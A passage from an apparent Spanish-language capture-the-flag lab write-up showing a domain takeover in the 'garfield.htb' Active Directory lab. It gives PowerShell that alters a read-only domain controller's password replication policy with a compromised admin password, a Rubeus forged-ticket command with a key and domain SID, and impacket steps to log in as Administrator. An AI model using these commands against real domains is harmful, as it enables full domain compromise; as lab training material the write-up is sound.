 **UN RODC TIENE PROHIBIDO MANEJAR CUENTAS DE ADMINISTRADOR, POR ELLO NO LE PUEDE PRESENTAR UN TICKET KERBEROS** Entonces con l.wilson_adm se cambiara esa regla (politica de replicacion de contraseñas o PRP) en la evil-winrm

```bash
$rodc = New-Object System.DirectoryServices.DirectoryEntry("LDAP://10.129.26.30/CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb", "garfield.htb\l.wilson_adm", "PwnedCat!2026")

$rodc.PutEx(1, "msDS-NeverRevealGroup", $null)
$rodc.SetInfo()

$rodc.PutEx(3, "msDS-RevealOnDemandGroup", @("CN=Administrator,CN=Users,DC=garfield,DC=htb"))
$rodc.SetInfo()
```


Ahora ejecutamos el Rubeus en la PsExec (que se logro acceder con el usuario hacker que se creo de l.wilson_adm)
```bash
.\Rubeus_v2.exe golden /aes256:d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240 /domain:garfield.htb /sid:S-1-5-21-2502726253-3859040611-225969357 /user:Administrator /id:500 /rodcNumber:8245 /ptt
```



Guardaremos en ticke como "ticket_final.b64", quitaremos los espacion por ello copiarlo, pegarlo en el navegador y recien pegarlo en el archivo.
Ahora convertimos el texto a un archivo .kirbi y despeus a un .ccache

```bash
cat ticket_final.b64 | tr -d ' \n' | base64 -d > admin.kirbi

impacket-ticketConverter admin.kirbi admin.ccache
```

Borramos el historior KRB5 
```bash
unset KRB5CCNAME
```
Sincorinizamos los tiempos y guardamos el ticket 

```bash
timedatectl set-ntp false
rdate -n 10.129.26.30
export KRB5CCNAME=supremo.ccache
```
Finalemnte ejecutamos
```bash
impacket-smbclient garfield.htb/Administrator@dc01.garfield.htb -k -no-pass -target-ip 10.129.26.30
```


Descargaremos la flag a nuestro kali y la leeremos con un cat


